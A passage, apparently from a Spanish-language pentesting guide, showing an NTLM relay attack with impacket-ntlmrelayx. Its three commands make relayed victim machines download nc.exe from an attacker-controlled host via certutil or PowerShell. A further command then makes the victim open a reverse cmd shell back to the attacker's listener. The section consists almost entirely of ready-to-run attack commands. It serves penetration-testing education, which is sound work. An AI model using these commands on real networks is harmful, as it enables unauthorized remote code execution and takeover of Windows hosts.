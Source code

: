Para subir el binario de netcat a la máquina atacante cualquiera de los tres métodos de abajo sirven.

`sudo impacket-ntlmrelayx -tf targets.txt -c "certutil.exe -f -urlcache -split http://192.168.1.132:8000/nc.exe C:\Windows\Temp\nc.exe" -smb2support`

`sudo impacket-ntlmrelayx -tf targets.txt -c "Powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.132:8000/nc.exe','C:\Windows\Temp\nc.exe')" -smb2support`

`sudo impacket-ntlmrelayx -tf targets.txt -c "Powershell (Invoke-WebRequest -Uri 'http://192.168.1.132:8000/nc.exe' -OutFile 'C:\Windows\Temp\nc.exe')" -smb2support`

![Ejecuci&#xF3;n correcta del comando certutil.](../../.gitbook/assets/ntlmrelay4.png)

Una vez cumplidas las dos primeras acciones, procedemos a ejecutar una reverse shell. Para ello ponemos en el atacante un nc a la escucha y ejecutamos el nc en la victima

`atacante --> nc -lvnp PUERTO` Para obtener una shell más comoda podemos utilizar **rlwrap**.

`victima --> sudo impacket-ntlmrelayx -tf targets.txt -c "C:\Windows\Temp\nc.exe -e cmd 192.168.1.132 4343" -smb2support`

![&#xA1;Premio!](../../.gitbook/assets/ntlmrelay5.png)
